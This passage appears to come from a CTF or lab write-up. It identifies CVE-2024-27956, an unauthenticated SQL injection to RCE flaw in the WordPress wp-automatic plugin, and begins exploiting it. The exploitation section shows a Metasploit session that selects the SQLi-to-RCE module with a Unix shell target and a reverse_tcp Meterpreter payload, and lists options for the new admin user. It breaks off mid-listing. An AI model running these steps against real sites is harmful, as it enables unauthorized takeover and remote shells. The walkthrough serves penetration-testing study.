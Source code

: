
## 4️⃣ Vulnerability Identification

### CVE-2024-27956: WordPress WP-Automatic Plugin SQL Injection to RCE (Unauthenticated)

- **What it is:** a WordPress plugin for content automation (RSS scraping, posting).
    
- **Why vulnerable:** `wp-automatic` has known SQL injection and config-change-to-RCE chains; Metasploit includes modules targeting this plugin (`exploit/multi/http/wp_automatic_sqli_to_rce`). WPScan flagged the plugin present.
    
- **Links:**

	- [NVD](https://nvd.nist.gov/vuln/detail/CVE-2024-27956)
	- [Metasploit module](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/http/wp_automatic_sqli_to_rce.rb)

---

## 5️⃣ Exploitation

### Content:

#### WordPress `wp-automatic` → RCE (initial foothold)

**Approach:** Use the known MSF module that chains SQLi→admin creation→RCE. Alternatively, use discovered credentials to access admin and use theme editor.

**Metasploit usage :**

```bash
└─$ msfconsole -q     
msf6 > search wp-automatic

Matching Modules
================

   #  Name                                              Disclosure Date  Rank       Check  Description
   -  ----                                              ---------------  ----       -----  -----------
   0  auxiliary/admin/http/wp_automatic_plugin_privesc  2021-09-06       normal     Yes    WordPress Plugin Automatic Config Change to RCE
   1  exploit/multi/http/wp_automatic_sqli_to_rce       2024-03-13       excellent  Yes    WordPress wp-automatic Plugin SQLi Admin Creation
   2    \_ target: PHP In-Memory                        .                .          .      .
   3    \_ target: Unix/Linux Command Shell             .                .          .      .
   4    \_ target: Windows Command Shell                .                .          .      .

msf6 exploit(multi/http/wp_automatic_sqli_to_rce) > use 3
[*] Additionally setting TARGET => Unix/Linux Command Shell
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(multi/http/wp_automatic_sqli_to_rce) >
msf6 exploit(multi/http/wp_automatic_sqli_to_rce) > options

Module options (exploit/multi/http/wp_automatic_sqli_to_rce):

   Name       Current Setting               Required  Description
   ----       ---------------               --------  -----------
   EMAIL      shaun_konopelski@wehner.test  no        Email for the new user
   PASSWORD   eTGbMoINkN35e                 no        Password for the new user
   Proxies                                  no        A proxy chain of format type:host:port[,type:host:port][...]. Supporte
```